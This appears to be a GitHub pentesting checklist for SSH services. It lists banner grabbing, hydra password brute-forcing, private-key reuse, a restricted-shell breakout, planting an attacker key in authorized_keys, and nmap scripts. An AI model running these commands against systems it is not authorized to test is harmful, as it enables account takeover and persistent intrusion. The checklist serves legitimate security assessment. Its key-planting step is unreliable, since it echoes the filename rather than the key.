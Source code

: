# SSH Pentesting Checklist & Commands


## 🎯 What am I realistically expecting to find here?
- [ ] Valid user credentials (from brute force or reused from other services)
- [ ] Private keys for login (if discovered on the system)
- [ ] SSH banner/version information (for potential CVEs)
- [ ] Evidence of port knocking sequence (if used)
- [ ] Restricted shell that may be breakable
- [ ] Ability to transfer files via SCP


A practical guide for assessing SSH services during penetration tests. Use responsibly and only with proper authorization.

## ✅ SSH Pentest Checklist

- [ ] **Banner Grabbing & Version Detection**

```
nc <IP> 22
nc -vn <IP> 22
searchsploit openssh
```

- [ ] **Brute-Force / Credential Testing**

```bash
hydra -v -L user.txt -P /usr/share/wordlists/rockyou.txt -t 16 <IP> ssh
hydra -l <username> -P passwords.txt -T 20 <IP> ssh
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

- [ ] **Manual Login Attempts**
```bash
ssh <username>@<IP>
ssh <username>@<IP> -i id_rsa
```

- [ ] **User Enumeration Tests**
```
ssh -v <username>@<IP>
```

- [ ] **Check for Private Key Reuse**
```bash
ssh -i id_rsa <user>@<IP>
```


- [ ] **Restricted Shell Breakout**

```bash
ssh <user>@<IP> -t "bash --noprofile"
```


- [ ] **File Transfer (SCP)**

```bash
scp <filename> <username>@<IP>:/path/to/copy
```


- [ ] **SSH Key-Based Access**
    # Attacker Machine

```bash
ssh-keygen
chmod 600 id_rsa
cat id_rsa.pub

# Target Machine
echo id_rsa.pub >> ~/.ssh/authorized_keys

# Connect
ssh -i id_rsa <USER>@<IP>
```

- [ ] **Port Knocking (Advanced)**

```
knock <IP> <SEQ1> <SEQ2> <SEQ3>
nmap -p 22 <IP>
```

## ✅ Recommended Nmap Commands
```
#Default safe scripts and version detection.
nmap -sC -sV -p22 <IP>

#All SSH-related scripts.
 nmap --script ssh-* -p22 <IP>

#Check specific vulnerabilities (OpenSSH CVEs).
 nmap --script ssh2-enum-algos,ssh-hostkey,ssh-auth-methods -p22 <IP>
```


